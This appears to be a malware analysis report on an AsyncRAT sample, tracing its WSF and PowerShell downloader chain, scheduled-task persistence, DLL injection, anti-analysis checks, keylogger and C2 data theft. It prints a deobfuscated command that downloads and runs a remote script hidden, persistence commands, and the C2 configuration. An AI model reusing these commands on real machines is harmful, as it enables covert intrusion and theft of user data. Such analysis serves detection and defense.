# AsyncRAT

## Summary

This sample utilizes AsyncRAT to remotely monitor and control the infected host through an encrypted tunnel. AsyncRAT is an open-source Remote Access Tool maintained by [NYAN-x-CAT](https://github.com/NYAN-x-CAT). Features include Keylogger, screen viewer and recorder, SFTP upload and download, and password recovery.

The infection chain used by this sample begins with a WSF file hosted on a malicious URL.

* Once the WSF file is executed it will then connect to another URL to download a malicious PowerShell script.
* This PowerShell script is used by the sample to contact another URL and download a second PowerShell script.
* The second PowerShell script creates a staging directory, scheduled task, and drops four files into the created directory. The four files created by this sample were coinmarketcap.ps1, imcq.ps1, 1.bat, and coinmarketcap.vbs.
* When the scheduled task is triggered, it runs `coinmarketcap.vbs`, which in turn executes `1.bat`. `1.bat` runs `imcq.ps1`, injecting a DLL embedded within itself into `Regsvcs.exe`, and contacts the attackers' C2.

<figure><figcaption><p>The infection chain utilized by this sample</p></figcaption></figure>

***

## Technical Analysis

### Downloader - any.txt

This file is used by the first stage to pull another PowerShell script from a malicious URL and continue the infection chain. The sample uses find and replace alternating capital letters to confuse someone who may be reading the file.

This stage of the sample can be deobfuscated to:


```
Set mw_wscript.shell= CreateObject("wscript.shell") mw_wscript.shell.Run(powershell.exe -wind hidden -exec bypass -noni iex(new-object net.webclient.downloadstring hxxps://transfer[.]sh/CdqqbMkRr9/Ic295.jpg , CONSOLE_HIDE, CMD_WAIT Set ali = Nothing
```


When this is run it will download the next stage from _hxxps://transfer\[.]sh/CdqqbMkRr9/Ic295.jpg_ and run it with it with PowerShell.

***

### Builder - Ic295.jpg

The purpose of this stage is to setup a staging area for the sample and to establish persistence on the victim's machine. When this stage is executed it will drop four files in the staging area and start running the first files of this stage. The first file that is executed in this stage is coinmarketcap.ps1. This file is responsible for creating the scheduled task on the host to setup persistence on the machine, if the final payload is terminated this scheduled task will re-run the installation process.&#x20;

The scheduled task is run with the command line:


```
'schtasks.exe' '/create' '/sc' 'minute' '/mo' 1 '/tn' ''coinmarketcap '/tr' (('C:\Users\Public\coinmarketcap\coinmarketcap.vbs'))
```


Once the scheduled task is executed it will then run coinmarketcap.vbs, this stage's responsibility is to run the dropped batch file 1.bat with Wscript.

<figure><figcaption><p>contents of coinmarketcap.vbs</p></figcaption></figure>

After the batch file is started it will run the final stage of this stage of this stage.


```
CMD /C powershell.exe -NOP -WIND HIDDEN -eXEC BYPASS -NONI "C:\Users\Public\coinmarketcap\imcq.ps1"
```


This last PowerShell script is used to build and inject a DLL into the target process RegSvcs.exe.

***

### Injector - NewPE2.dll

```
MD5:	5616daa897af18e81dee80e75eef90cd
SHA256: 3a9096d615a3cd3163b814cc2803d68a627c681d19d3a896313c925b8a11bf4c
Original Name: NewPE2.dll
file-type: dynamic-link-library
Compile Date: 28 FEB 2067 11:16:29
Entropy: 5.789
signature: Microsoft Visual C# / Basic .NET
file-size: 21504 (bytes)
```

#### _Public Class Execute()_

This class takes the arguments path and payload. These arguments are used by the sample to inject the final payload into a target process. In this case, it injects the final payload into RegSvcs.exe.

Sample uses complex math to determine what case to switch to, this behavior is indicative of the malware author employing ConfuserEx to obfuscate the DLL.

<figure><figcaption><p>Example of control flow flattening</p></figcaption></figure>

#### _Public Class Str()_

This class uses the functions ReverseString() and BinaryToString() to resolve WinAPI calls.

**Function ReverseString()**

This function is used by the sample to reverse the order of an input string.

**Function BinaryToString()**

This function searches for the character "气" and replaces it with a 1 After this replacement is completed, it then converts the string from binary to ASCII.

<figure><figcaption><p>Example of a string passed to BinaryToString function</p></figcaption></figure>

***

## RAT - Stub.exe

```
MD5: D7B80F2813A1E85FA33250AF05291468
SHA256: 8830775005D8B9092E216A8AF9EF23AAB6622C1890D0FD425C4D726A03CDFAB0	
Original Name: Stub.exe
File-type: executable
Compile Date: Apr 10 2023
Entropy: 3.913
Signature: Microsoft Visual C# v7.0 / Basic .NET		
File size: 98304 (bytes)
```

### Public Class Settings()

**Function InitalizeSettings()**

This function is used by the sample to decrypt the RAT's configuration and then saves it to a field so it can be used later in the execution.

These are the configuration settings used in this sample:

```
Ports : 7719
Hosts : nationalteams11.publicvm[.]com
Version	: "| CRACKED BY hxxps://t[.]me/xworm_v2"
Install : false
MTX : "AsyncMutex_6SI8OkPnk"
Pastebin: null
Anti : false
offlineKL: false
BDOS : false
Group : Default
Hwid  : null
```

### Public Class main()

When main is run it starts by entering a for loop where the escape condition is determined by the settings field "delay". Inside the loop contains the command Thread.Sleep(1000). This means that this sample will sleep for a total of three seconds before any more code is executed.

<figure><figcaption><p>Example of Thread.Sleep()</p></figcaption></figure>

After the delay loop is completed, the sample begins making decisions based on the previously decrypted configuration. It does this by opening up a try-catch block and comparing the settings to a Boolean, if the setting is set to true it will run the function related to that setting.

<figure><figcaption><p>Try catch block used by main()</p></figcaption></figure>

The first setting this sample checks for is Settings.Anti, this is used to determine if anti-analysis techniques will be utilized. If the configuration has anti-analysis enabled the sample will call the function RunAntiAnalysis().

<figure><figcaption><p>Anti-analysis function</p></figcaption></figure>

#### Function RunAntiAnalysis()

When this function is run it will call several other functions to employ different anti-analysis techniques. This sample calls the functions Anti\_Analysis.DetectManufacturer(), Anti\_Analysis.DetectDebugger(), Anti\_Analysis.DetectSandboxie(), Anti\_Analysis.IsSmallDisk(), Anti\_Analysis.IsXP() to attempt to not be analyzed.

The first technique used by the sample is to detect what manufacturer the host is made by. It does this by comparing the strings "microsoft corporation", "VIRTUAL", "vmware", and "VirtualBox". If the sample finds any of these strings it will kill the process.

<figure><figcaption><p>Detect Manufacturer function</p></figcaption></figure>

If the sample is unable to find any of these strings it will continue to employ anti-analysis techniques, the next one used is to determine if a debugger is attached to the process.

#### Function DetectDebugger()

If the sample can determine that a debugger is attached to the process it will kill the process, preventing further dynamic analysis from being completed.

<figure><figcaption><p>Detect Debugger function</p></figcaption></figure>

#### Function DetectSandboxie()

The next technique used is to detect if the sample is running in a Sandboxie sandbox, it achieves this by attempting to create a handle to the DLL SbieDll.dll. If it can create a handle it will kill the process. [Sandboxie](https://sandboxie-plus.com/) is a sandbox-based isolation software for 32-bit and 64-bit Windows NT-based operating systems.

<figure><figcaption><p>Detect Sandboxie function</p></figcaption></figure>

#### Function IsSmallDisk()

After the sample determines that it's not being run in a sandbox it will try to employ another technique to determine if it's being run in a virtualized environment, it does this by getting the disk's size and compares it to a constant. In this case, it will check if the disk is larger than 61GB.

<figure><figcaption><p>Is Small Disk function</p></figcaption></figure>

#### Function IsXP()

The last technique used to try to evade detection is to determine if the sample is running on a Windows XP machine.

<figure><figcaption><p>Is XP function</p></figcaption></figure>

Once the sample has completed deploying its anti-analysis techniques it will then start to install the RAT on the host and establish more persistence on the host. First, the sample will check if Settings.Install is set to true, if it is it will then call the function NormalStartup.Install().

#### Function NormalStartup.Install()

This function starts by checking to see if the module's file name is the same as the one set in the configuration. In this sample, it's set to "%APPDATA%/python2.09.exe. If they aren't equal the sample will start to enumerate the processes running on the host to check if it is running in another process. If it detects that it's running in another process it will kill the other process.

<figure><figcaption><p>Code used to check filename</p></figcaption></figure>

<figure><figcaption><p>Process enumeration</p></figcaption></figure>

Next, the sample will determine if it is running as an administrator, if it is it will create a scheduled task to run the RAT on logon.

<figure><figcaption><p>Create schtask if the sample is running as Admin</p></figcaption></figure>

If the sample is not running as an administrator it will create a registry key in "Software\Microsoft\Windows\CurrentVersion\Run and set the value to the name of the executable set in the configuration.

<figure><figcaption><p>Adding executable to registry</p></figcaption></figure>

Once the sample creates a schtask or registry entry it will then check if the file exists in the path set in the configuration delete it and sleep for 1000ms. After which it will create a file stream with the contents of the file. Once the stream is created a bat file with a random name in the temp directory is set to start the file created with the file stream and then delete the created file. Lastly, it will start a new process with the batch file.

<figure><figcaption><p>Batch file and process creation.</p></figcaption></figure>

After the sample is installed and establishes persistence on the victim's machine, it will set the thread's state to prevent it from sleeping. Then, it creates a new thread with the function LastAct().

<figure><figcaption><p>Thread being started with function LastAct</p></figcaption></figure>

#### Function LastAct()

This function is used to run every 1000ms and get the idle time of the thread

<figure><figcaption><p>Function LastAct</p></figcaption></figure>

After this thread is created the sample will check the value of the field Settings.offlineKL, if it's set to true the sample will initialize the built-in keylogger on the host. This sample utilizes LimeLogger, this keylogger is a simple C# keylogger maintained by the RAT's author NYAN-x-CAT.

<figure><figcaption><p>Lime logger initialization</p></figcaption></figure>

After the try-catch block is completed an infinite loop is created where the the sample will check if there is a socket connected to this process, if there is the sample will sleep for 5000ms, if there isn't a socket connected the sample will call two functions. The first function called by the loop is ClientSocket.Reconnect().

#### Function ClientSocket.Reconnect()

This function is used by the sample to check if the host has a connection to the C2, it does this by checking if there is an SSL stream established, a TCP socket created, a ping interval set, and a keepAlive packet created. If it does not it will return that it isn't connected.

<figure><figcaption></figcaption></figure>

After the status of the connection is checked the sample will call the function ClientSocket.InitializeClient(). This function is responsible for selecting a C2 and creating a connection to that C2.

#### Function ClientSocket.InitializeClient()

When this function is called it will start by creating a new TCP socket. After the socket is created the sample will determine if it is using a pastebin to search for the C2 or a host determined in the configuration.  If the sample is not using a pastebin it will select a random host from the configuration and attempt to connect to it, if the connection fails it will try another host from the configuration.

<figure><figcaption><p>Client socket creation</p></figcaption></figure>

After the connection with the C2 is created the sample will start sending information about the host and start searching for crypto wallets to steal. It does this by calling the function SendInfo(). This function will send HWID, user, OS, Path, if the process is running as an admin, the active window, the pastebin from the configuration, the antivirus running on the host, and search for other sensitive information on the host and pack it into a zip file to be sent to the C2

<figure><figcaption><p>Function SendInfo</p></figcaption></figure>
